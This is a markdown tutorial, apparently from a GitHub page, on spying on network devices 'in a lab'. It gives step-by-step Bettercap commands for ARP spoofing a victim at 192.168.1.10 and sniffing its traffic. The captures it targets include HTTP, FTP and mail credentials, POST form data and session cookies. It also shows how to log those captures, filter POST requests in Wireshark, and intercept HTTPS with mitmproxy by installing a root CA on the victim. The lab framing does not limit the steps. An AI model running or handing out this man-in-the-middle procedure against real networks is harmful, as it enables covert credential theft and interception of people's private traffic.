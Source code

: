 ## 🔧 HOW TO SPY ON NETWORK DEVICES IN A LAB

### 🛠 Tools You Can Use:

* `Bettercap`: ARP spoof + real-time sniffing
* `Wireshark`: Detailed packet analysis
* `mitmproxy`: Intercept and manipulate HTTP/HTTPS
* `tcpdump`: Lightweight terminal-based sniffer

---

### ✅ STEP-BY-STEP: Using Bettercap for Credential & Traffic Capture

#### 1. **Start Bettercap with the right network interface:**

```bash
sudo bettercap -iface eth0
```

#### 2. **Enable IP forwarding**

```bash
set net.ipv4.forwarding true
```

#### 3. **Set ARP spoofing target (victim)**

```bash
set arp.spoof.targets 192.168.1.10
arp.spoof on
```

#### 4. **Enable sniffer**

```bash
net.sniff on
set net.sniff.verbose true
```

#### 5. **Capture specific types of data**

Bettercap will automatically detect:

* HTTP basic/digest authentication
* FTP, POP3, IMAP, SMTP credentials
* Visited websites
* POST form data (unencrypted)

#### 6. **Log results to a file**

```bash
set net.sniff.output logs/session.pcap
```



### What You Can Capture

| Protocol     | Data Capturable                     | Notes                                    |
| ------------ | ----------------------------------- | ---------------------------------------- |
| **HTTP**     | Usernames, passwords, URLs, forms   | Most useful, unencrypted                 |
| **HTTPS**    | Limited, unless using mitmproxy     | HSTS often blocks SSL stripping          |
| **FTP/SMTP** | Login creds, commands               | Captured in plaintext                    |
| **DNS**      | Hostnames being resolved            | Reveals websites visited                 |
| **Cookies**  | Session tokens, sometimes auth info | Via `Set-Cookie` headers in HTTP traffic |



## Alternative Tools

### **Wireshark**

Capture on interface:

```bash
sudo wireshark
```

Apply filters:

* `http.request.method == "POST"`
* `ftp`
* `dns`

### **mitmproxy** (for HTTPS intercept)

```bash
mitmproxy -i eth0
```

It acts as an intercepting proxy. You can view, modify, and log requests/responses.



## Modern Limitation: HTTPS

Most credentials are now protected by HTTPS + HSTS. You’ll see the traffic, but not the **plaintext content** unless:

* You install your own root CA on the victim (for mitmproxy)
* You target **unencrypted** protocols



## Want to Try It in a Safe Lab?

You can use:

* **Kali VM** (attacker)
* **Metasploitable** or **DVWA** (victim)
* **VirtualBox NAT Network** or **Bridged mode**

